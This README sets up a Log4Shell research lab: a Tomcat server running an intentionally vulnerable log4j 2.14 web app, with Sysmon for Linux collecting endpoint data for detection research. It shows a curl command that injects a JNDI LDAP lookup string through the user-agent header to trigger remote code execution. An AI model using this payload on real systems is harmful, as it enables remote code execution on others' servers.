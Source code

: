 # Victim Server

There are several lab environments being shared in the Infosec community that are helping security researchers to test and learn more about `Log4Shell`.
However, most of them use docker containers to not only deploy the vulnerable application, but also containerize the execution of code.
From a Linux perspective, this does not help while using tools such as "[Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)" since it cannot be installed in containers yet.
I wanted to put together a research lab where I could replicate a basic real scenario with a vulnerable Web application and Sysmon for Linux running.
## Basic Setup

* [Tomcat v8.5.3](https://tomcat.apache.org/)
* Vulnerable Java Application:
    * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
    * [log4j-core v2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0)
    * [log4j-api v2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0)
* [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)

## Set up Tomcat Server

SSH to your Linux VM and git clone this projet:

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
run the bash script `Install-Tomcat.sh` to install and set up a [Tomcat](https://tomcat.apache.org/) server:

```Bash
cd log4jshell-lab/victim-server/

sh Install-Tomcat.sh
```

Check if the `Tomcat` service is running properly.

```
service tomcat status
```

### Install Docker

We are going to use a Docker image to compile our vulnerable application. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

### Compile Vulnerable Application

We need to add a vulnerable application to our Tomcat server. This project also comes with one.
We need to compile our application and create a `.war` file to host the vulnerable aplication in our Tomcat server under `/opt/tomcat/webapps`.

```bash
cd httpLoginForm/
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

Copy new `.war` file from the `target` folder to the Tomcat `/opt/tomcat/webapps/` folder.

```bash
cp target/VulnWebApp-1.0-SNAPSHOT.war /opt/tomcat/webapps/
```

### Restart Tomcat Service

```Bash
service tomcat stop
service tomcat start
```

### Access Vulnerable Web App

The application can be accessed via your favorite browser or directly via curl commands (API style).
There are two scenarios currently being covered:
* Message Lookup
* Thread Context

**Browser**
* If your Linux VM has a GUI, you can simply browse to `http://localhost:8080/VulnWebApp-1.0-SNAPSHOT/`.
* If your Linux VM does not have a GUI and you can only use the terminal, you can SSH tunnel your access to your vulnerable application. Simply run the following commands in a new terminal.

```bash
ssh -L 8080:127.0.0.1:8080 wardog@[Public-IP-Linux-VM]
```

* You must use the `password` field to pass a `JNDI lookup` string to trigger the vulnerability.
* By default, the vulnerable application will use the `Message Lookup` method.
* If you want to choose what method to use to trigger the RCE, you just need to use the following strings in the `email` field:
    * An email address that starts with `msglookup@`
    * An email address that starts with `threadcontext@`

![](../resources/images/log4jshell-lab-vuln-webapp.png)

**API - Curl Commands**
* You can also SSH to your Tomcat server and interact with the application's basic API.
* The API exposes two methods over `GET` requests:
    * `127.0.0.1:8080/VulnWebApp-1.0-SNAPSHOT/api/msglookup`
    * `127.0.0.1:8080/VulnWebApp-1.0-SNAPSHOT/api/threadcontext`
* Both methods require you to pass the `JNDI lookup` string via the `user-agent` header of the `GET` request.

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389#Run}' 127.0.0.1:8080/VulnWebApp-1.0-SNAPSHOT/api/threadcontext
```

## Install Sysmon for Linux

If you want to generate some endpoint data, download the following Sysmon for Linux bash script to automate the installation and configuration of it:

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh
chmod +x Install-Sysmon-For-Linux.sh

sh Install-Sysmon-For-Linux.sh --config https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/configs/sysmon/linux/sysmon.xml
```

## Reference
* https://linuxize.com/post/how-to-install-tomcat-8-5-on-ubuntu-18-04/
* https://www.digitalocean.com/community/tutorials/install-tomcat-9-ubuntu-1804
